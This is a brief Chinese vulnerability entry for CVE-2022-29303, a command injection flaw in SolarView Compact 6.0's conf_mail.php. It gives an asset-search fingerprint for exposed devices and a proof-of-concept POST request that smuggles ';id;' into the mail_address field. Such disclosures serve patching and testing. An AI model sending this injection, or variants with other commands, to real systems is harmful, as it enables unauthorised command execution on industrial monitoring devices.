

# SolarView Compact conf_mail.php 远程命令执行漏洞 CVE-2022-29303

## 漏洞描述

SolarView Compact conf_mail.php 存在远程命令执行漏洞，攻击者通过构造特殊的请求，可以获取服务器权限

## 漏洞影响

 <a-checkbox checked>SolarView Compact 6.0</a-checkbox></br>

## 网络测绘

 <a-checkbox checked>body="SolarView Compact" && title=="Top"</a-checkbox></br>

## 漏洞复现

主页面


验证POC

```php
POST /conf_mail.php
  
mail_address=%3Bid%3B&button=%83%81%81%5B%83%8B%91%97%90M 
```

